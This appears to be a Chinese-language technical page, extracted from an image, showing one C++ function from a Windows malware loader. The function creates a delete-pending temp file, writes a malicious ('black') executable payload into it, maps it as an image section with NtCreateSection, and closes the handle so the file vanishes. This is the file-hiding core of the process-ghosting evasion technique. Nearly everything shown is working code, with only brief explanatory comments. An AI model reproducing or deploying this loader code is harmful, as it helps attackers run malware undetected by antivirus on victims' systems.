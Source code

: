 **make_section_from_delete_pending_file**

其中，设置temp文件为删除状态，并将black exe的内存映射到temp文件。

```C

HANDLE make_section_from_delete_pending_file(wchar_t* filePath, BYTE* payladBuf, DWORD payloadSize) {
    HANDLE hDelFile = open_file(filePath);//打开temp文件
    NTSTATUS status = 0;
    IO_STATUS_BLOCK status_block = { 0 };

    FILE_DISPOSITION_INFORMATION info = { 0 };
    info.DeleteFile = TRUE;
    status = NtSetInformationFile(hDelFile, &status_block, &info, sizeof(info), FileDispositionInformation);//改变文件对象信息，将设置为请求删除文件状态。
    if (!NT_SUCCESS(status)) {
        cout << "Setting information failed: " << hex << status << "\n";
        return INVALID_HANDLE_VALUE;
    }
    LARGE_INTEGER ByteOffset = { 0 };

    status = NtWriteFile(
        hDelFile,
        NULL,
        NULL,
        NULL,
        &status_block,
        payladBuf,
        payloadSize,
        &ByteOffset,
        NULL
    );//将传入的black exe的内存地址写入temp文件
    if (!NT_SUCCESS(status)) {
        DWORD err = GetLastError();
        cout << "Failed writing payload! Error: " << hex << err << endl;
        return INVALID_HANDLE_VALUE;
    }
    HANDLE hSection = nullptr;
    status = NtCreateSection(&hSection,
        SECTION_ALL_ACCESS,
        NULL,
        0,
        PAGE_READONLY,
        SEC_IMAGE,
        hDelFile
    );//为temp文件创建section
    if (status != STATUS_SUCCESS) {
        cerr << "NtCreateSection failed: " << hex << status << endl;
        return INVALID_HANDLE_VALUE;
    }
    NtClose(hDelFile);//关闭handle，同时temp文件消失
    hDelFile = nullptr;

    return hSection;
}
```

